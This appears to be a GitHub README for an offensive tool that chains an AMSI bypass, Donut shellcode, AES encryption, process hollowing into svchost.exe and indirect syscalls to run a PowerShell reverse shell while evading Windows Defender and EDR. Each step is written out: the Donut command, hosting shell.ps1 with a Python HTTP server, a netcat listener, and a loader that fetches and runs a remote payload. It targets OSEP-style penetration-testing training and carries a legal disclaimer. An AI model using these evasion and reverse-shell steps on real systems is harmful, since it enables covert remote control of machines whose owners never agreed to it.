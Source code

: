 # 🧬 Stealth Shellcode Runner – AES + Donut + PowerShell Loader

This project demonstrates a stealthy end-to-end technique to execute an AES-encrypted PowerShell reverse shell using:

- **Process Hollowing**
- **AES-256-CBC Encryption**
- **Donut Shellcode Generator**
- **.NET AMSI Bypass**
- **Indirect Syscalls**
- **PPID Spoofing (not implemented, but supported)**

Tested in OSEP-like environments with **Windows Defender enabled**.

## 🛠️ Development Environment

This project was developed and tested using:

- **Visual Studio 2022 or newer**
- **.NET Framework 4.x** (for compatibility with `System.Management.Automation`)
- **Build configuration**: `Release | x64`

📌 Make sure to open the solution with Visual Studio to:

- Compile `Loader.exe` correctly  
- Add a reference to `System.Management.Automation.dll` if needed  
- Export the binary in `Release x64` mode before generating shellcode with Donut

---


## 🧩 Step 1: Build the PowerShell Loader

- The C# loader (`Loader.cs`) patches AMSI via `.NET Reflection`, downloads a remote PowerShell payload, and executes it in memory using `Runspace`.
- Uses base64 string obfuscation for script names like `shell.ps1`.

📌 **Important:**  
Make sure the hardcoded IP in `Loader.exe` **matches the IP of the machine hosting `shell.ps1`** via HTTP.

📌 **Note:** You may need to reference:
```
C:\Program Files\WindowsPowerShell\Modules\PowerShellGet\<version>\System.Management.Automation.dll
```

---

## 🧪 Step 2: Generate Shellcode with Donut

Convert the compiled `Loader.exe` into raw shellcode using [Donut](https://github.com/TheWover/donut):

```bash
donut.exe -i Loader.exe -a 2 -f 1 -b 1 -o shellcode.bin
```

**Explanation of Donut flags:**
- `-a 2`: Target architecture (x64)
- `-f 1`: Output format: raw shellcode
- `-b 1`: AMSI/WLDP/ETW bypass level  
  - `1`: **No bypass**  
  - `2`: Abort on failure  
  - `3`: Continue on failure

💡 *This project uses Donut on Windows and then transfers `shellcode.bin` to a Kali Linux host for encryption.*

---

## 🔐 Step 3: Encrypt the Shellcode with AES

Use the provided Python script to encrypt the shellcode using AES-256-CBC:

```bash
python3 Aes_encryption.py
```

- The script outputs `encryptedShellcode`, `aesKey`, and `aesIV` as C# byte arrays.
- Paste these into the `Advanced_Process_Hollowing.cs` runner.

---

## 🧠 Step 4: Execute with Process Hollowing + Indirect Syscalls

The shellcode runner performs the following:

- Creates a suspended process (e.g., `svchost.exe`)
- Allocates memory using `NtAllocateVirtualMemory` (indirect syscall)
- Decrypts the AES shellcode in memory
- Writes shellcode using `NtWriteVirtualMemory` (indirect syscall)
- Sets memory protection to `RX` using `NtProtectVirtualMemory`
- Launches a thread using `NtCreateThreadEx` (indirect syscall)

✅ All syscalls are performed using dynamically allocated stubs from `ntdll.dll`, bypassing userland API hooks from AV/EDR.

❌ **PPID Spoofing is not implemented in this version**, although the use of `STARTUPINFOEX` structure means it could be added in the future.

---

## 🌐 Step 5: Host the PowerShell Reverse Shell

Create a `shell.ps1` PowerShell script containing your reverse shell logic.

📌 **Important:**  
Ensure that the IP inside `shell.ps1` (e.g. `TCPClient('192.168.1.X', 443)`) **matches the IP of your listener machine**.

Then serve the file using Python:

```bash
python3 -m http.server 80
```

---

## 📡 Step 6: Start Listener with Netcat

Use `netcat` (and optionally `rlwrap`) to catch the reverse shell:

```bash
rlwrap -cAr nc -lnvp 443
```

---

## 🚀 Step 7: Run the Shellcode Runner

Once everything is set up, run the compiled runner:

```bash
.\Advanced_Process_Hollowing.exe
```

If successful, your listener will receive the reverse shell connection.

---

## ✅ Summary

- AMSI is patched via .NET Reflection
- AES-encrypted shellcode is decrypted and injected into a remote process
- Full execution is achieved via indirect syscalls to evade detection
- The shellcode loads a PowerShell loader that fetches and executes a remote payload
- Designed for stealth and tested in Defender-enabled environments
- PPID Spoofing is not yet implemented, but possible with minimal modification

---

## ⚠️ Legal Notice

This project is for **educational and authorized penetration testing** purposes only.  
Do not use this code outside of lab environments or without **explicit permission**.  
Misuse may be illegal and unethical.

---
